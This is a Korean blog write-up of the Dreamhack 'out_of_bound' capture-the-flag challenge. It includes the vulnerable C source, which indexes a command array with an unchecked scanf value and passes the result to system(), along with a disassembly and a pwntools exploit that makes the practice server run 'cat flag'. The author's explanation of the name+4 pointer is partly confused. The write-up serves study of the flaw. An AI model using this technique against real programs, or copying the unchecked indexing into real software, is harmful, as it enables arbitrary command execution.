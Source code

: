 ```yaml
---
published: true
image: /img
layout: post
title: [Dreamhack] out_of_bound 문제풀이
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-03-07 21:00
---
```


<h4 style="color:red">제가 공부하면서 적은 내용으로 틀린 내용이 있을수 있으니 지적해주시면 정정하겠습니다. 감사합니다.</h4><hr><br>

out of bound(OOB)는 버퍼의 길이를 벗어나는 인덱스를 참조하려 할때 발생할 수 있는 취약점이다.
<br>
이번 문제의 소스코드를 먼저 살펴보자.

```C
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

main함수를 따라가면서 살펴보면 먼저 관리자 이름을 name이라는 변수에 입력 받는다. 이후 What do you want?라는 문구와 함께 어떤 작업을 실행할 것인지 int형을 scanf로 입력 받는다. 이후 입력받은 값을 idx라는 변수에 넣고 system함수를 통해 command[idx]를 실행하고 프로그램은 종료한다.

system함수는 C언어 내부에서 쉘을 사용할 수 있는 기능을 제공하며 배열 10이 할당되어 있으나 scanf에서는 입력받는 크기가 제한이 없는것을 볼수 있다. 이부분을 공략하면 될 것 같다.

일단 같이 제공된 바이너리를 peda를 통해 disas main 해보자.
```shell
   0x080486cb <+0>: 	lea    ecx,[esp+0x4]
   0x080486cf <+4>: 	and    esp,0xfffffff0
   0x080486d2 <+7> :	push   DWORD PTR [ecx-0x4]
   0x080486d5 <+10>:	push   ebp
   0x080486d6 <+11>:	mov    ebp,esp
   0x080486d8 <+13>:	push   ecx
   0x080486d9 <+14>:	sub    esp,0x14
   0x080486dc <+17>:	mov    eax,gs:0x14
   0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e5 <+26>:	xor    eax,eax
   0x080486e7 <+28>:	call   0x804867b <initialize>
   0x080486ec <+33>:	sub    esp,0xc
   0x080486ef <+36>:	push   0x8048811
   0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
   0x080486f9 <+46>:	add    esp,0x10
   0x080486fc <+49>:	sub    esp,0x4
   0x080486ff <+52>:	push   0x10
   0x08048701 <+54>:	push   0x804a0ac
   0x08048706 <+59>:	push   0x0
   0x08048708 <+61>:	call   0x80484a0 <read@plt>
   0x0804870d <+66>:	add    esp,0x10
   0x08048710 <+69>:	sub    esp,0xc
   0x08048713 <+72>:	push   0x804881e
   0x08048718 <+77>:	call   0x80484b0 <printf@plt>
   0x0804871d <+82>:	add    esp,0x10
   0x08048720 <+85>:	sub    esp,0x8
   0x08048723 <+88>:	lea    eax,[ebp-0x10]
   0x08048726 <+91>:	push   eax
   0x08048727 <+92>:	push   0x8048832
   0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
   0x08048731 <+102>:	add    esp,0x10
   0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
   0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
   0x0804873e <+115>:	sub    esp,0xc
   0x08048741 <+118>:	push   eax
   0x08048742 <+119>:	call   0x8048500 <system@plt>
   0x08048747 <+124>:	add    esp,0x10
   0x0804874a <+127>:	mov    eax,0x0
   0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
   0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
   0x08048759 <+142>:	je     0x8048760 <main+149>
   0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
   0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048763 <+152>:	leave  
   0x08048764 <+153>:	lea    esp,[ecx-0x4]
   0x08048767 <+156>:	ret 
```
우선 집중해서 봐야할 부분은 name의 주소값과 command의 주소값인것 같다.

name    : 0x804a0ac<br>
command : 0x804a060

각 주소값의 거리를 계산해 보면 name(0x804a0ac) - command(0x804a060) = 0x4C이다.
4C를 10진수로 변환하면 76이고 포인터 배열이 하나당 4바이트씩 할당하니 76/4를 하면 19가 나온다.

name의 위치는 command주소로 부터 [19]만큼 떨어져 있다고 볼수 있다.
그럼 name에는 "/bin/sh"를 주고 idx를 19를 입력하면 될것 같다.

여기서 조심해야 할 것이 system함수이다.

system 함수는 외부 라이브러리이기 때문에 변수주소_4바이트+exec_code(인수)로 구성되어 있다고 한다. 예를 들어 system("cat flag"); 이라는 명령어를 실행하면 메모리에는 변수주소_4바이트 + cat flag가 들어간다. 따라서 결과 리턴을 위한 name+4의 값과  cat flag를 인수로 줘야 한다.

이제 파이썬을 이용해 익스플로잇 코드를 짜보자

```python
from pwn import *

conn = remote("host2.dreamhack.games", 16966)

print(conn.recv())

payload = p32(0x804a0ac+4) #name주소 + 4byte
payload += b"cat flag"
print(payload)
conn.sendline(payload)
print(conn.recv())

conn.sendline(b"19")
print(conn.recvall().decode('utf-8'))
```

위 코드를 실행하면 플레그 값을 얻을 수 있다.
이번 문제를 풀면서 system함수의 어셈블리 호출규약을 알아볼 필요성을 느꼈다.
좀더 공부를 하고 포스팅 내용을 보충해야 겠다.

